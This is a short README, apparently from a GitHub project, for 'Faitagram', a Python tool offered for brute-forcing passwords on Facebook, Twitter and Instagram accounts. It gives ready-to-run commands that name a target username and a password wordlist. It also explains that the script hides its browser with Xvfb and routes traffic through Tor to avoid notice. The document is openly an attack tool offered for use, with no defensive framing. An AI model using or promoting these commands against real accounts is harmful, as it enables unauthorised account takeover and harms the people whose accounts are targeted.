 # FAITAGRAM
* Faitagram (FIX) Brute Force for Facebook, Twitter &amp; Instagram. Programmed in Python.

# REQUIREMENTS
* python setup.py

# COMMAND
* python faitagram -s [service] -u [username] -w [wordlist] -d [delay(Optional)]

# EXAMPLE
* python faitagram -s facebook -u Example@gmail.com -w /root/passwd.txt -d 10
* python faitagram -s instagram -u USERNAME -w wlist.txt
* python faitagram -s twitter -u USERNAME -w wlist -d 3

# HOW IT WORKS
This script uses selenium web driver, and Xvfb and py virtual display to make the web driver invisible so you can keep doing work, this script also uses STEM as the proxy.

# CREDITS
* ex0dus-0x
* Hassan-Tahir
